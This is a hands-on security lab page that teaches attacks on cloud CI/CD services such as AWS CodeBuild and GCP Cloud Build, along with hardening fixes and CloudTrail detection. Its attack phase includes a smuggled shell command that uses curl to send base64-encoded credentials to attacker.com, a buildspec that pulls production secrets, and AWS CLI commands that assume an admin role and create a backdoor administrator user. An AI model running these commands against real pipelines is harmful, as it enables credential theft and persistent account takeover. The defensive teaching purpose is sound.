

# Lab 9.3: Cloud CI/CD Attacks (Beyond GitHub Actions)

<div class="lab-meta">
  <span>Phase 1 ~10 min | Phase 2 ~15 min | Phase 3 ~10 min | Phase 4 ~5 min</span>
  <span class="difficulty advanced">Advanced</span>
  <span>Prerequisites: <a href="../../tier-2/2.1-cicd-fundamentals/">Lab 2.1</a></span>
</div>

Cloud-native CI/CD services (AWS CodeBuild, GCP Cloud Build, Azure DevOps) have deep IAM integration. A misconfigured build role does not just leak a GitHub token. It can give an attacker access to every resource in your cloud account. Three attack vectors: CodeBuild environment variable injection via SSM, Cloud Build substitution variable abuse, and privilege escalation through overprivileged build roles.

---

### Attack Flow



---

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. Cloud CI/CD Trust Models"

    **Goal:** Understand how AWS CodeBuild, GCP Cloud Build, and Azure DevOps differ from GitHub Actions.

### Trust model comparison

| Property | GitHub Actions | AWS CodeBuild | GCP Cloud Build |
|----------|---------------|---------------|-----------------|
| **Secret storage** | GitHub Secrets (per-repo) | SSM Parameter Store (account-wide) | Secret Manager (project-wide) |
| **Build identity** | GITHUB_TOKEN (scoped) | IAM Role (can be overprivileged) | Service Account (project-level) |
| **Secret scoping** | Per-environment, per-repo | By IAM policy on Parameter Store path | By IAM binding on Secret Manager |

**The critical difference:** If the CodeBuild IAM role has `ssm:GetParameter` on `Resource: "*"`, ANY build can read ANY parameter in the account, including production database passwords.

### Vulnerable configurations

```bash
cat buildspec-vulnerable.yml    # Fetches /prod/ secrets
cat cloudbuild-vulnerable.yaml  # User-controlled substitution variables
cat iam-policy-vulnerable.json  # ssm:*, s3:*, iam:PassRole, sts:AssumeRole on *
```

---

???+ warning "Phase 2: BREAK. Exploiting Cloud CI/CD"

    **Goal:** Execute three attacks against cloud-native CI/CD services.

### Attack 1: CodeBuild SSM parameter injection

A PR modifies `buildspec.yml` to add SSM parameter references for production secrets:

```yaml
env:
  parameter-store:
    PROD_DB_PASSWORD: /prod/database/master-password
    STRIPE_SECRET: /prod/payments/stripe-secret-key
```

The build fetches these secrets. Attacker exfiltrates via HTTP or embeds them in Docker image layers via `--build-arg`.

### Attack 2: Cloud Build substitution variable abuse

```bash
# _TEST_COMMAND = "npm test; curl https://attacker.com/$(cat /workspace/credentials.json | base64)"
```

Injected into `sh -c '${_TEST_COMMAND}'`. The attacker gets the Cloud Build service account's credentials.

### Attack 3: Build role privilege escalation

The CodeBuild role has `sts:AssumeRole` on `*`. During a build:

```bash
ADMIN_CREDS=$(aws sts assume-role \
    --role-arn arn:aws:iam::123456789012:role/AdminRole \
    --role-session-name "codebuild-escalation")
# Create backdoor IAM user with AdministratorAccess
aws iam create-user --user-name build-service-account
aws iam attach-user-policy --user-name build-service-account \
    --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

Permanent admin access survives after build finishes.

---

???+ success "Checkpoint"
    You should understand all three attack vectors and why they succeed: account-wide SSM access, unsanitized substitution variables in shell commands, and unrestricted AssumeRole permissions.

---

???+ success "Phase 3: DEFEND. Hardening Cloud CI/CD"

    **Goal:** Least-privilege IAM, input validation, encrypted parameters, build isolation.

### Fix 1: Scope SSM Parameter access

| Permission | Vulnerable | Hardened |
|-----------|-----------|---------|
| SSM GetParameter | `Resource: "*"` | `Resource: "arn:...parameter/build/*"` with tag condition |
| S3 | `s3:*` on `*` | `s3:GetObject, s3:PutObject` on specific bucket |
| IAM/STS | `iam:PassRole, sts:AssumeRole` on `*` | **Explicit Deny** on `iam:*, sts:AssumeRole` |

Build-time secrets: `/build/*`. Production secrets: `/prod/*`. Build role only accesses `/build/*`.

### Fix 2: Validate substitution variables

```yaml
- name: 'gcr.io/cloud-builders/docker'
  entrypoint: 'bash'
  args:
    - '-euo'
    - 'pipefail'
    - '-c'
    - |
      if [[ ! "${_IMAGE_NAME}" =~ ^[a-zA-Z0-9_-]+$ ]]; then
        echo "ERROR: Invalid _IMAGE_NAME"; exit 1
      fi
```

Hardcode test commands. Use `MUST_MATCH` substitution option. Use a dedicated build service account.

### Fix 3: Harden the buildspec

Key changes: only build-scoped parameters, `--secret` mount instead of `--build-arg`, `npm ci --ignore-scripts`, input validation on commit hash.

### Fix 4: Build config change detection

Flag changes to `buildspec.yml`, `cloudbuild.yaml`, `azure-pipelines.yml` for mandatory security review.

### Final verification

```bash
weaklink verify 9.3
```

---

??? danger "Phase 4: DETECT. Monitoring Cloud CI/CD Abuse"

    **Goal:** Detect secret access, privilege escalation, and build config tampering.

CloudTrail indicators:

| Event | Severity |
|-------|----------|
| `GetParameter` with path `/prod/*` from CodeBuild | Critical |
| `AssumeRole` from CodeBuild to non-build role | Critical |
| `CreateUser` or `CreateAccessKey` from CodeBuild | Critical |
| `PutParameter` from CodeBuild | High |
| Build duration > 3x normal | Medium |

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| Supply Chain Compromise: Software Supply Chain | [T1195.002](https://attack.mitre.org/techniques/T1195/002/) | Build config modified to inject malicious steps |
| Unsecured Credentials: Credentials In Files | [T1552.001](https://attack.mitre.org/techniques/T1552/001/) | SSM parameters accessed by overprivileged build role |
| Valid Accounts: Cloud Accounts | [T1078](https://attack.mitre.org/techniques/T1078/) | Build role escalated to admin via AssumeRole |

---

## What You Learned

- Cloud CI/CD services have deeper IAM integration than GitHub Actions. A misconfigured build role can access any secret and any IAM role in the account.
- Build config files are attack vectors. Modifying `buildspec.yml` is equivalent to modifying the CI pipeline and often bypasses code review.
- Explicit Deny on IAM/STS prevents escalation even if Allow statements are overly broad.

## Further Reading

- [AWS: CodeBuild Security Best Practices](https://docs.aws.amazon.com/codebuild/latest/userguide/security.html)
- [GCP: Cloud Build Security](https://cloud.google.com/build/docs/securing-builds)
- [MITRE ATT&CK: Unsecured Credentials (T1552)](https://attack.mitre.org/techniques/T1552/)
